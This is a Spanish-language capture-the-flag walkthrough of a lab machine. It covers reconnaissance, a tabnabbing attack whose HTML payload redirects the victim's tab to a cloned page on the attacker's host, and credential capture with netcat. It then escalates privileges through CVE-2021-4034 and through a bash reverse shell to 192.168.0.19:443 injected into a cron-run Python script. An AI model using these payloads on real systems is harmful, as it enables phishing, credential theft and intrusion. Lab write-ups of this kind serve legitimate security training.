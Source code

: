 Haremos los reconocimientos de nmap y vemos el puerto 80 y 22 abiertos:
![[Pasted image 20230423173949.png]]
Esta es la página web:
![[Pasted image 20230423174147.png]]
![[Pasted image 20230423174212.png]]
Vamos a probar en registrarnos con el usuario mario y la contraseña 123123:
![[Pasted image 20230423174408.png]]
Y tenemos esta página:
![[Pasted image 20230423174429.png]]
En este punto interceptamos la petición con burpsuite en el punto de cambiar la contraseña y convertimos la petición a GET:
![[Pasted image 20230423174731.png]]
Y si ponemos esto mismo en el navegador de esta forma también se va a cambiar la contraseña:
![[Pasted image 20230423174835.png]]
Pero vemos que no funciona, por lo que a simple vista no es vulnerable a [[MAQUINA SECNOTES (SQL Injection, CSRF (Cross-site request forgery), detectar usuarios válidos con wfuzz, netcat en windows, php malicioso y escalar privilegios en máquina Windows con subsistema de Linux instalado a través de ejecutar un bash.exe)]]. Por lo que vamos a buscar otros métodos. Por lo que vamos a probar en poner un link en el campo de input:
![[Pasted image 20230423175717.png]]
Damos a submit y ahora miramos el código fuente de la página:
![[Pasted image 20230423175743.png]]
Y en el código fuente vemos que en la parte de target pone blank, lo cual es una vulnerabilidad:
![[Pasted image 20230423175837.png]]
Y si buscamos en google nos confirman que se trata de una vulnerabilidad y aquí tenemos esta web que nos explica como explotar esta vulnerabilidad:
![[Pasted image 20230423175934.png]]
Nos dicen que primero tenemos que crear un documento html que podremos llamar por ejemplo payload.html:
```html
<html>
<script>
        if (window.opener) window.opener.parent.location.replace("http://192.168.0.19:443/index.html");
        if (window.parent != window) window.opener.parent.location.replace("http://192.168.0.19:443/index.html");
</script>
</html>
```
![[Pasted image 20230423182649.png]]
Y luego vamos a crear otro llamado index.html que tenga el código fuente de la página
![[Pasted image 20230423182718.png]]
Pegamos todo esto en el index.html:
![[Pasted image 20230423182758.png]]
Tenemos ambos archivos creados:
![[Pasted image 20230423182817.png]]
Por tanto, una vez con todo esto hecho, vamos a crear uns ervidor web con python alojando estos dos archivos:
![[Pasted image 20230423182850.png]]
Y ahora dentro de la web, simplemente tenemos que llamar a este servidor web de python al archivo payload.html de la siguiente manera, poniendo 
```html
	http://192.168.0.19:80/payload.html
```
![[Pasted image 20230423183041.png]]
Nos pondremos en el escucha también con netcat:
![[Pasted image 20230423183110.png]]
Y ahora le damos clic a submit y habremos recibido por netcat las credenciales del usuario:
![[Pasted image 20230423183235.png]]
Tenemos estas credenciales: 
```python
username=daniel

password=C%40ughtm3napping123
```
Vimos que teníamos abierto el puerto ssh, el puerto 22, por lo que vamos a probar en poner estas credenciales, pero veremos que no funcionan:
![[Pasted image 20230423183749.png]]
Por lo que es posible que esta password venga codificada de alguna manera, por lo que vamos a abrir burpsuite para corregir esto,  ya que viene url-encodeada; y vemos que ahora la password es C@ughtm3napping123:
![[Pasted image 20230423183927.png]]
Probamos esta contraseña por ssh y vemos que ya funciona:
![[Pasted image 20230423184048.png]]
Llegados a este punto, tenemos dos formas de escalar los privilegios, o bien con la herramienta linux-exploit-suggester ejecutándolo todo desde el usuario Daniel o bien modificando un archivo .py dentro del directorio del usuario adrián para mandarnos una reverse shell y escalar los privilegios con VIM:
## ESCALADA 1
Una vez dentro, podemos utilizar una herramienta que se llama linux exploit suggester [[1 - Linux Exploit Suggester]] que nos hará un análisis automatizado buscando vulnerabilidades; y encontramos una en la versión de sudo:
![[Pasted image 20230227133025.png]]
Nos lo clonamos dentro de la máquina víctima y lo ejecutamos, donde veremos que probablemente es vulnerable a la vulnerabilidad CVE-2021-3156:
![[Pasted image 20230423185958.png]]
Podemos confirmar que esto es vulnerable con el comando sudo -V, para ver la versión de sudo:
![[Pasted image 20230423190026.png]]
Tenemos este repositorio de github donde se nos muestra cómo explotar esta vulnerabilidad, donde además vemos que en el ejemplo que se nos pone en este repositorio la máquina víctima tiene la misma versión de sudo que la nuestra:
![[Pasted image 20230423190237.png]]
![[Pasted image 20230423190300.png]]
Pero cuando ejecutamos este exploit vemos que no funciona:
![[Pasted image 20230423190736.png]]
Por lo que volvemos a mirar por más vulnerabilidades de la herramienta linux-exploit-suggester:
![[Pasted image 20230423190825.png]]
Si buscamos herramientas para explotar esta vulnerabilidad, encontramos esta de github:
![[Pasted image 20230423190852.png]]
Y tenemos un proof of concept que nos explica como explotar esto mismo, donde vemos que simplemente tenemos que ejecutar el comando make y luego el exploit que se nos genera para convertirnos en root:
![[Pasted image 20230423190938.png]]
![[Pasted image 20230423191005.png]]
Esto nos habrá generado un archivo llamado cve-2021-4034, el cual simplemente tenemos que ejecutarlo y ya somos root:
![[Pasted image 20230423191045.png]]
Vemos que en el directorio de root tenemos un archivo llamado nap.py, el cual contiene unas credenciales de la base de datos mysql:
![[Pasted image 20230423191500.png]]
Por tanto nos conectamos a esta base de datos con estas credenciales y estamos dentro:
![[Pasted image 20230423191545.png]]
Y aquí encontramos las credenciales que haya dentro de la base de datos, aunque nos encontramos con nosotros mismos, que podríamos crackear nuestra password con john the ripper fácilmente ya que nuestra password era password1
![[Pasted image 20230423191711.png]]
## ESCALADA 2
Dentro del directorio personal del usuario Adrian tenemos un archivo llamado query.py:
![[Pasted image 20230423192358.png]]
Y si vemos este código de python podemos ver que lo que hace es obtener la fecha actual del sistema y la guarda en el site_status.txt:
![[Pasted image 20230424100708.png]]
![[Pasted image 20230424100727.png]]
Entonces aquí lo que podemos hacer es añadir dentro de este fichero de python el comando para ganar una reverse shell por parte del usuario Adrian, por lo que ponemos esto:

```bash
os.system("bash -c 'bash -i >& /dev/tcp/192.168.0.19/443 0>&1'")
```

![[Pasted image 20230424100811.png]]
Y entonces ahora esperamos un minuto y habremos recibido la reverse shell:
![[Pasted image 20230424100927.png]]
Y además siendo este usuario podemos ejecutar el comando sudo -l y vemos una vulnerabilidad que nos permite ejecutar comandos como root con vim:
![[Pasted image 20230424101000.png]]
Por lo que procedemos a [[Escalada de Privilegios con VIM]]:

